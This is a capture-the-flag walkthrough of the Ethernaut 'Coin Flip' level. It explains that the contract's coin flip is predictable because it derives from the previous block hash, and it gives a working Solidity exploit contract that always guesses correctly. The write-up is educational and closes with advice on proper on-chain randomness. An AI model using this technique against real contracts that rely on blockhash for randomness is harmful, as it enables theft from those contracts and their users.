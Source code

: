 ```yaml
---
description: >-
  In Ethernaut's Coin Flip, we're introduced to the problem of randomness on a
  public, deterministic blockchain.
---
```


# 3 - Coin Flip

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f) is to guess the correct outcome of the contract's "coin flip" 10 times in a row.

### Hints

<details>

<summary>Hint One</summary>

If the contract's `flip` function were truly random, this level would be impossible. How, exactly, does it determine the outcome of the coin flip? How could we use this knowledge to improve our guesses?

</details>

<details>

<summary>Hint Two</summary>

The outcome of each coin flip is purely a function of the hash of the last mined block. The hash is divided by a constant `FACTOR` and whether this quotient `== 1` determines the result. We will need to script the calculation of this value ourselves prior to each "guess" transaction. This can be implemented in a smart contract of our own!

</details>

### Full Walkthrough

The contract's `flip` function is responsible for simulating the outcome of the coin flip (a boolean) and checking it against the user's `_guess`. The issue with the way this feature has been implemented is that the outcome of the flip is purely a function of the hash of the last mined block, a public variable accessible to any user prior to them making their guess. Comments have been added to the contract snippet below for clarity.

```solidity
function flip(bool _guess) public returns (bool) {
  // This variable is publicly knowable prior to the function being called
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));

  // The rest of the code below is incidental, the coin flip is purely a 
  // function of the (known) 'blockValue' variable above.

  if (lastHash == blockValue) {
    revert();
  }

  lastHash = blockValue;
  uint256 coinFlip = blockValue.div(FACTOR);
  bool side = coinFlip == 1 ? true : false;

  if (side == _guess) {
    consecutiveWins++;
    return true;
  } else {
    consecutiveWins = 0;
    return false;
  }
}
```

As we can determine the `blockValue` before calling the contract's `flip` function, we simply need to implement our own matching flip function to calculate our "guess" in advance of each transaction.

We'll write our own "proxy contract" in Solidity to handle calculating the outcome of the coin flip and then calling the `flip` function on the `CoinFlip` contract. Our contract will contain a `guess` function that will just need to be called ten times in a row. The approach below will always work as we will be executing both the calculation of our guess and the result of the `flip` function at once, meaning everything will be included in the same block so both contracts will have the same value of `block.number` (the current block height in which the transaction is being mined).

{% hint style="info" %}
**Global Variables and Global Functions**

We see both `block.number` and `blockHash` are accessible from within the smart contracts without being defined. This is because Solidity makes a number of useful variables and functions globally available. You can learn more in the Solidity [documentation](https://docs.soliditylang.org/en/v0.8.10/units-and-global-variables.html).
{% endhint %}

### Scripted Solution

```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipExploit {
    CoinFlip public coinFlipContract;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    /**
     * @dev Sets `coinFlipContract` to instance at `coinFlipContractAddress`.
     */
    constructor(address coinFlipContractAddress) {
        coinFlipContract = CoinFlip(coinFlipContractAddress);
    }

    /**
     * @dev Calls the CoinFlip contract's `flip` function with the correct guess.
     */
    function guess() public {
        uint256 previousBlockHash = uint256(blockhash(block.number - 1));
        bool side = (previousBlockHash / FACTOR) == 1 ? true : false;

        coinFlipContract.flip(side);
    }
}
```

### Key Takeaways

* Generating sufficiently random data is a challenge on a _**deterministic**_\*\* blockchain\*\* and is a problem best left to industry standard solutions like the Chainlink oracle's "Verifiable Random Function".
* Smart contracts on public blockchains are auditable by anyone. Any attempts to hide clever tricks in a contract's code are therefor ultimately futile.
* Solidity contains a number of useful globally available variables and functions we can use when writing our own contracts.
